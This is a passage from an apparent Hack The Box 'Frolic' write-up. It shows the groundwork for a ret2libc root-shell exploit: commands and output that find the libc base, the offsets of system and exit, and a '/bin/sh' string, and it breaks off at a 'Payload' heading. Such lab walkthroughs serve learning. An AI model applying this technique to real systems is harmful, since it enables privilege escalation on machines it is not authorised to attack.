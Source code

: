 ![gdb](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/frolic/gdb-peda.png)

Our goal is to gain an access to root shell, so we have to find a way to call the `system` function with `"/bin/sh"` as an argument. Here are the steps:

### Libc address

1. Get libc address (`0xb7e19000`) using `ldd`:

```bash
$ ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

### `system` and `exit` addresses

2. Locate the addresses of `system` (`0x0003ada0`) and `exit` (`0x0002e9d0`) functions: 

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

### `"/bin/sh"` address

3. Final thing, we need a strings that contains `"/bin/sh"` (`0x15ba0b`)

```bash
$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep -i "/bin/sh"
 15ba0b /bin/sh
```

### Payload
